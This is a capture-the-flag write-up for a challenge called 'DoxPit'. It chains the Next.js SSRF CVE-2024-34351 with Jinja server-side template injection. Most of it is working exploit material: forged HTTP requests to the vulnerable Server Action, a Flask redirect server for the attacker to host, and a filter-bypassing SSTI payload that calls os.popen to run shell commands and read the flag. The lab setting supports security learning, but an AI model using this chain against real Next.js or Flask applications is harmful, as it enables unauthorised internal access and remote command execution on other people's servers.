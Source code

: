 # Challenge: DoxPit
# Rate: Medium

The WebApp is using Next.js version 14.1.0 which has [CVE-2024-34351](https://www.assetnote.io/resources/research/advisory-next-js-ssrf-cve-2024-34351).

![nextjs.png](nextjs.png)

So we can perform an SSRF attack.

```
POST / HTTP/1.1
Host: attacker.com
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

If we analyze the source code, there are two projects that exist in the folder. The `av` is written with Flask and is only accessible from local.

![flask.png](flask.png)

Examining more of this project we can see some routes: `/`, `/home`, `/register`, `/login`, `/logout`

- `routes.py`:
    
    ```python
    # more ...
    
    def auth_middleware(func):
      def check_user(*args, **kwargs):
        db_session = Database()
    
        if not session.get("loggedin"):
          if request.args.get("token") and db_session.check_token(request.args.get("token")):
            return func(*args, **kwargs)
          else:
            return redirect("/login")
    
        return func(*args, **kwargs)
    
      check_user.__name__ = func.__name__
      return check_user
      
    
    @web.route("/", methods=["GET"])
    def index():
      return redirect("/home")
      
    # more ...
    
    @web.route("/login", methods=["GET"])
    def login():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ...
    
    @web.route("/register", methods=["GET"])
    def register():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ... 
    ```
    

Now after examining the detailed [exploit of CVE-2024-34351](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps), we are able to send a request to the Flask web app by the below scenario:

1. `flaskRedirect.py`
    
    ```python
    from flask import Flask, Response, request, redirect
    app = Flask(__name__)
    
    @app.route('/', defaults={'path': ''})
    @app.route('/<path:path>')
    def catch(path):
        if request.method == 'HEAD':
            resp = Response("")
            resp.headers['Content-Type'] = 'text/x-component'
            return resp
        return redirect('http://0.0.0.0:3000/register?username=new&password=new')
    
    app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
    ```
    
2. Host the `flaskRedirect.py` on your controlled server.
3. Send this request:
    
    ```
    POST / HTTP/1.1
    Host: yourserver.com:1234
    Content-Length: 2
    Accept: text/x-component
    Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
    Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: keep-alive
    
    []
    ```
    

After sending this request a user is created for you. Here is the response of the Web App:

![token.png](token.png)

Now we have the token and have access to all routes.

![directory1.png](directory1.png)

![directory2.png](directory2.png)

As we can see the code is loading files using Jinja templates. so we can try SSTI.

![invalid-chars.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/6b0ec4cc-79d3-4877-956a-bdb954b181b2/f5d3368c-28fe-42d5-908f-55bdb78cdd69/invalid-chars.png)

But here’s the thing. There are some preventions in these files that limit us from performing SSTI attacks. So we can not use `{{`, `}}`, `.`, `_`, `[`, `]`, `\`, `x` in our payload.

Looking at common payloads in [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), we can easily find this payload:

```python
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
```

The only problem with the above payload is it uses `\` but we can not use it because it’s forbidden.

If we research about different payload structures in Jinja, we can find these things that work:

```python
{%with a=((((request|attr("application"))|attr(request|attr("args")|attr("get")("globals")))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("import"))("os")|attr("popen")(request|attr("args")|attr("get")("cmd"))|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*
```

Now modify `flaskRedirect.py` again:

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://0.0.0.0:3000/home?token=56021495728f15002281f3999bb6f204&directory={%with a=((((request|attr("application"))|attr(request|attr("args")|attr("get")("globals")))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("import"))("os")|attr("popen")(request|attr("args")|attr("get")("cmd"))|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*')

app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
```

Send the request again:

```
POST / HTTP/1.1
Host: yourserver.com:1234
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

And get the Flag:

![flag.png](flag.png)

